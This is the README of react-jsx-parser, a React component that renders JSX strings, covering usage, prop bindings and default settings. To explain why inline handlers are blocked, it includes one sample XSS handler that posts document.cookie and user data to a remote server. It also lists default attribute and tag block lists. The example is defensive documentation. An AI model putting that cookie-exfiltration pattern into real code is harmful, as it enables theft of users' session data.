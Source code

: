 # React-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/TroyAlford/react-jsx-parser) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] 
[circle-ci-badge]: https://img.shields.io/circleci/project/github/TroyAlford/react-jsx-parser/master.svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  // if false, unrecognized elements like <foo> are omitted and reported via onError
  allowUnknownElements: true, // by default, allow unrecognized elements

  bindings: {}, // by default, do not add any additional bindings

  // by default, just removes `on*` attributes (onClick, onChange, etc.)
  // values are used as a regex to match property names
  blacklistedAttrs: [/^on.+/i],

  // by default, removes all <script> tags
  blacklistedTags:  ['script'],

  // an object map of component tag-names to their definitions - see above for examples
  // components must extend React.Component, React.PureComponent, or be a Function
  components: {},

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if enabled, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper
}
```
